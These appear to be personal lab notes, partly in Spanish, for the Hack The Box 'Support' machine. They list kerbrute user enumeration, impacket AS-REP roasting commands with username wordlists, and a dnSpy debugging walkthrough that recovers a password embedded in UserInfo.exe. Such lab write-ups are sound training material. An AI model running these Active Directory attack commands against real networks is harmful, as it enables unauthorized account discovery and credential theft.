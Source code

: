 ## TGT KERBRUTE ENUM
```bash
kerbrute userenum -d support.htb --dc <IP> users.txt
kerbrute userenum -d support.htb --dc <IP> /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt
```

## TGT GETNPUSERS ENUM (ASREPROAST ATTACK)
```bash
impacket-GetNPUsers htb.local/ -no-pass -usersfile users.txt
impacket-GetNPUsers htb.local/ -no-pass -usersfile /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt
```

## UPDATING USERS DICTIONARY 
```bash
nvim users.txt
ldap@support.htb
guest@support.htb
support-tools@support.htb
administrator@support.htb
```

## WINDOWS MACHINE USERINFO.EXE ENUM
```bash
# SIGUE LOS PASOS
> Agregar al /etc/host la <IP> y el <DOMAIN>
> Instalar OpenVPN y cargar archivo de HTB_VPN
> Abrir cmd.exe en la ruta de UserInfo.exe
.\UserInfo.exe find -first * -last *
.\UserInfo.exe user -username *
```

## WINDOWS MACHINE DNSPY ENUM
```bash
# DESCARGAR Y DESCOMPRIMIR DNSPY
https://github.com/dnSpy/dnSpy/releases/download/v6.1.8/dnSpy-netframework.zip
#EJECUTAR DNSPY Y CARGAR USERINFO.EXE
> UserInfo.exe > UserInfo > UserInfo.Services > LdapQuery
# ASIGNAR UN BREAK POINT EN LA LINEA 12 (PASSWORD)
Tecla f9
# DEPURAR EL PROGRAMA
Tecla f5
> Argumentos: find -first * -last * > Aceptar
# DAR UN PASO MÁS EN EL DEBUG
Tecla f10
# SE DETECTA LA VARIABLE PASSWORD Y SU RESPECTIVO VALOR

# APAGAR OPENVPN
```
